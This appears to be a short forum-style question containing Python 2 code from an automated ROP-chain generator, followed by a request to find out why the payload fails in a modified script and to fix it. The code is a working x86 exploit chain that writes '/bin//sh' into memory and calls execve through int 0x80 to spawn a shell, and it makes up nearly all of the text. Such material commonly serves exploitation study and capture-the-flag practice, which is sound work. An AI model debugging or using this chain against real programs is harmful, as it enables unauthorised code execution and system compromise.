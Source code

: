 ```
rop += '//bi'
rop += rebase_0(0x0002a99a) # 0x0807299a: pop edx; ret;
rop += rebase_0(0x000a6060)
rop += rebase_0(0x0000c95b) # 0x0805495b: mov dword ptr [edx], eax; ret;
rop += rebase_0(0x00073b46) # 0x080bbb46: pop eax; ret;
rop += 'n/sh'
rop += rebase_0(0x0002a99a) # 0x0807299a: pop edx; ret;
rop += rebase_0(0x000a6064)
rop += rebase_0(0x0000c95b) # 0x0805495b: mov dword ptr [edx], eax; ret;
rop += rebase_0(0x000036ca) # 0x0804b6ca: pop dword ptr [ecx]; ret;
rop += p(0x00000000)
rop += rebase_0(0x00073b46) # 0x080bbb46: pop eax; ret;
rop += p(0x00000000)
rop += rebase_0(0x0002a99a) # 0x0807299a: pop edx; ret;
rop += rebase_0(0x000a6068)
rop += rebase_0(0x0000c95b) # 0x0805495b: mov dword ptr [edx], eax; ret;
rop += rebase_0(0x000001d1) # 0x080481d1: pop ebx; ret;
rop += rebase_0(0x000a6060)
rop += rebase_0(0x0009afc9) # 0x080e2fc9: pop ecx; ret;
rop += rebase_0(0x000a6068)
rop += rebase_0(0x0002a99a) # 0x0807299a: pop edx; ret;
rop += rebase_0(0x000a6068)
rop += rebase_0(0x00073b46) # 0x080bbb46: pop eax; ret;
rop += p(0x0000000b)
rop += rebase_0(0x0002afa0) # 0x08072fa0: int 0x80; ret;
print rop
[INFO] rop chain generated!
```

However, using this payload in a modified script does not work. Can you figure out why and fix it?
